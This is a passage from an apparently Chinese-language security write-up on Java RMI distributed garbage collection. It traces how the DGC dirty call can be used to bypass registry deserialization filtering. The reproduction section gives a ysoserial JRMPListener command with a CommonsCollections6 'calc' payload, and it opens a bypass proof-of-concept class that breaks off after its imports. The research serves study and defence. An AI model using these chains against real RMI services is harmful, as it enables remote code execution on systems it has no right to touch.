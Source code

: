 **垃圾回收 (Garbage Collection):**  当服务端 DGC 确定一个远程对象的所有租约都已过期，即没有任何客户端持有该远程对象的有效引用时，服务端 JVM 就可以 **安全地回收** 该远程对象所占用的资源，进行垃圾回收。

##### DGC 工作流程主要包含这几种操作：

1. 客户端获取远程对象引用: 客户端调用 Naming.lookup() 或远程方法，获得远程对象引用。
2. 客户端 RMI runtime 发送 dirty 请求给服务端 DGC: 声明客户端开始引用，请求租约。
   GCClient#registerRefs -> DGCClient $EndpointEntry#registerRefs -> DGCClient$ EndpointEntry#makeDirtyCall -> DGCImpl_Stub#dirty -> UnicastRef#invoke -> StreamRemoteCall#executeCall
3. 服务端 DGC 颁发租约，开始跟踪。
   sun.rmi.dgc.DGCImpl.dirty 接收 dirty 请求、颁发租约(leaseID 和有效期)
4. 客户端 RMI runtime 定期发送租约续订请求 (dirty 请求)。
   java.rmi.dgc.DGCClient.renewLease，其本质也是 ditry 请求
5. 服务端 DGC 更新租约有效期。
   sun.rmi.dgc.DGCImpl.dirty
6. 客户端释放远程对象引用 (或 JVM 退出): 客户端 RMI runtime 发送 clean 请求给服务端 DGC。
   DGCClient#unregisterRefs -> DGCClient$EndpointEntry#makeCleanCall -> DGCImpl_Stub#clean -> UnicastRef#invoke -> StreamRemoteCall#executeCall
7. 服务端 DGC 取消租约。
   sun.rmi.dgc.DGCImpl.clean
8. 当所有租约过期或取消后，服务端 JVM 可以回收远程对象。

回答刚才的问题，其实是由 DGCCline 发送 dirty 请求时，调用到 DGCImpl_Stub#dirty 触发的。也就是这个链条

GCClient#registerRefs -> DGCClient $EndpointEntry#registerRefs -> DGCClient$ EndpointEntry#makeDirtyCall -> DGCImpl_Stub#dirty -> UnicastRef#invoke -> StreamRemoteCall#executeCall

我们首先可以看到 RegistryImpl_Skel#dispatch 的 readObject()方法反序列化之后，进行了 call.releaseInputStream();

![image-20250309121312916](https://gitee.com/ling-x5/img/raw/master/image-20250309121312916.png)

跟进去看到有 ConnectionInputStream 调用 registerRefs 

![image-20250309103823580](https://gitee.com/ling-x5/img/raw/master/image-20250309103823580.png)

继续跟进看到 DGCClient 调用 registerRefs ，而这个 entry 就是我们传入的恶意的 JRMP 的地址

![image-20250309104018752](https://gitee.com/ling-x5/img/raw/master/image-20250309104018752.png)

后续的流程就是这样了

DGCClient $EndpointEntry#registerRefs -> DGCClient$ EndpointEntry#makeDirtyCall -> DGCImpl_Stub#dirty -> UnicastRef#invoke -> StreamRemoteCall#executeCall

#### 复现

启动 JRMPListener

```
java -cp .\ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'calc'
```

bypass POC

```java
package com.lingx5.RMI;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.Endpoint;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

```